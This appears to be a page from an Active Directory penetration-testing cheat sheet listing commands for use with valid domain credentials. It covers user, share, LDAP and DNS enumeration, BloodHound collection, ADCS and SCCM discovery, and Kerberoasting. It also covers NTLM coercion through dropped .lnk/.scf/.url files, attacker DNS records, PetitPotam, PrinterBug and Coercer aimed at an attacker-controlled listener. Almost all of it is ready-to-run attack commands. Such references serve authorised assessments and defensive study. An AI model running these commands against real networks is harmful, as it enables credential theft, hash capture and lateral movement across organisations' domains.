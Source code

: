 ```yaml
---
title: "Valid Credentials (cleartext creds, nt hash, kerberos ticket)"
description: "Valid Credentials (cleartext creds, nt hash, kerberos ticket) techniques and commands for Active Directory security assessment."
---
```

## Classic Enumeration (users, shares, ACL, delegation, ...)

- Find all users >>> Username
  - `GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>`
  - `nxc smb <dc_ip> -u '<user>' -p '<password>' --users`
- Enumerate SMB share >>> Scroll shares
  - `nxc smb <ip_range> -u '<user>' -p '<password>' -M spider_plus`
  - `nxc smb <ip_range> -u '<user>' -p '<password>' --shares [--get-file \\<filename> <filename>] `
  - `manspider <ip_range> -c passw -e <file extensions> -d <domain> -u <user> -p <password>`
- Bloodhound Legacy >>> ACL || Delegation || Username
  - `bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all`
  - `rusthound -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile.zip> -z`
  - `import-module sharphound.ps1;invoke-bloodhound -collectionmethod all -domain <domain>`
  - `sharphound.exe -c all -d <domain>`
- Bloodhound CE >>> ACL || Delegation || Username
  - `bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all`
  - `rusthound-ce -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile.zip> -z --ldap-filter=(objectGuid=*)`
  - `sharphound.exe -c all -d <domain>`
  - `SOAPHound.exe -c c:\temp\cache.txt --bhdump -o c:\temp\bloodhound-output --autosplit --threshold 900`
- Enumerate Ldap >>> ACL || Delegation || Username
  - `ldeep ldap -u <users> -p '<password>' -d <domain> -s ldap://<dc_ip> all <backup_folder>`
  - `ldapdomaindump.py -u <user> -p <password> -o <dump_folder> ldap://<dc_ip>:389`
  - `ldapsearch-ad.py -l <dc_ip> -d <domain> -u <user> -p '<password>' -o <output.log> -t all`
- Enumerate DNS >>> New targets (low hanging fruit)
  - `adidnsdump -u <domain>\\<user> -p "<password>" --print-zones <dc_ip>`

## Enumerate ADCS >>> ADCS Exploitation
- `certify.exe find`
- `certipy find -u <user>@<domain> -p '<password>' -dc-ip <dc_ip>`

## Enumerate SCCM >>> SCCM Exploitation
- `sccmhunter.py find -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> sccm`
- `SharpSCCM.exe local site-info`

## Scan Auto
- from BH result
  - `AD-miner -c -cf Report -u <neo4j_username> -p <neo4j_password>`
- `PingCastle.exe --healthcheck --server <domain>`
- `Import-Module .\adPEAS.ps1; Invoke-adPEAS -Domain '<domain>' -Server '<dc_fqdn>'`

## Kerberoasting >>> Hash TGS
- `MATCH (u:User) WHERE u.hasspn=true AND u.enabled = true AND NOT u.objectid ENDS WITH '-502' AND NOT COALESCE(u.gmsa, false) = true AND NOT COALESCE(u.msa, false) = true RETURN u`
- `GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>`
- `Rubeus.exe kerberoast`

## Coerce
- Drop file
  - .lnk
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M slinky -o NAME=<filename> SERVER=<attacker_ip>`
  - .scf
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M sucffy -o NAME=<filename> SERVER=<attacker_ip>`
  - .url
    - `[InternetShortcut]... IconFile=\\<attacker_ip>\%USERNAME%.icon`
  - Other files
    - `ntlm_theft.py -g all -s <your_ip> -f test`
- Webdav
  - Enable webclient
    - .searchConnector-ms
      - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M drop-sc`
  - add attack computer in dns
    - `dnstool.py -u <domain>\<user> -p <pass> --record <attack_name> --action add --data <ip_attacker> <dc_ip>`
  - Launch coerce with <attacker_hostname>@80/x as target >>> HTTP Coerce
- RPC call >>> SMB NTLM Coerce
  - `printerbug.py <domain>/<username>:<password>@<printer_ip> <listener_ip>`
  - `petitpotam.py -d <domain> -u <user> -p <password> <listnerer_ip> <target_ip>`
  - `coercer.py -d <domain> -u <user> -p <password> -t <target> -l <attacker_ip>`
- Coerce kerberos >>> SMB Kerberos coerce
  - `dnstool.py -u "<domain>\<user>" -p '<password>' -d "<attacker_ip>" --action add "<dns_server_ip>" -r "<servername>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --tcp`
    - `petitpotam.py -u '<user>' -p '<password>' -d <domain> '<servername>1UWh...' <target>`

## Intra ID Connect
- Find MSOL
  - `nxc ldap <dc_ip> -u '<user>' -p '<password>' -M get-desc-users |grep -i MSOL`

## Can Connect to a computer >>> Lateral move

## Exploit >>> know vulnerabilities